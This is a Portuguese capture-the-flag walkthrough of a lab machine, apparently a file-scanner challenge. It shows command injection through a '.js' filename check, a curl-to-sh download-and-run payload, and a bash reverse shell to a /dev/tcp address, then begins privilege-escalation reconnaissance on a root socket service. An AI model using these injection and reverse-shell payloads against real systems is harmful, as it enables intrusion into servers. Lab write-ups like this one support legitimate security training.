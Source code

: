 Se a aplicação funcionar como esperado, podemos explorar uma possível vulnerabilidade no processo de escaneamento de arquivos.

Notamos que a aplicação só permite arquivos com extensão `.js`, validando apenas os três últimos caracteres. Com isso, é possível criar um payload como: `filename$(comando).js`

Para verificar se o payload está funcionando, montamos um servidor para receber requisições da aplicação. Assim, confirmamos se a injeção de comando foi bem-sucedida.

O payload seria: `filename$(curl meuip).js`

Para receber a requisição, podemos subir um servidor simples em Python.

![iniciando servidor]({{ "/assets/img/hacking_club_scanner/initserver.png" | relative_url }})

Ao executar o comando, o servidor recebeu a seguinte requisição:

![conexão recebida]({{ "/assets/img/hacking_club_scanner/recvd_connection.png" | relative_url }})

Pronto. A injeção de comando foi validada com sucesso! Agora, o objetivo é obter acesso ao servidor via reverse shell. Para isso, criamos um arquivo `index.html` com um shell reverso em bash e hospedamos no servidor Python.

Conteúdo de `index.html`:

```javascript
/bin/bash -c 'sh -i >& /dev/tcp/10.0.20.223/4444 0>&1'
```

Ao fazer uma requisição ao servidor, o conteúdo do `index.html` será executado. O payload necessário para isso é:

```bash
filename$(curl ip|sh).js
```

Após o envio, conseguimos abrir o shell reverso:

![shell recebido]({{ "/assets/img/hacking_club_scanner/recv_shell.png" | relative_url }})

O próximo passo foi investigar o servidor brevemente e capturar a primeira flag, localizada em `/home/svc_web/user.txt`.

![primeira flag]({{ "/assets/img/hacking_club_scanner/first_flag.png" | relative_url }})

# escalonamento de privilégios

Após realizar o reconhecimento inicial no servidor, não foram encontrados vetores óbvios para escalonamento de privilégios: nenhum binário com capabilities mal configuradas, nenhum SUID, e não temos a senha do usuário `svc_web` para usar sudo.

Contudo, ao listar os processos root em execução, encontramos um *socket* aberto na porta 9717, associado a um binário localizado em `/opt/secure_vault`:

![secure_vault via socat]({{ "/assets/img/hacking_club_scanner/socat-secure-vault.png" | relative_url }})

Conectando na porta 9717, vimos que é necessário fazer login.
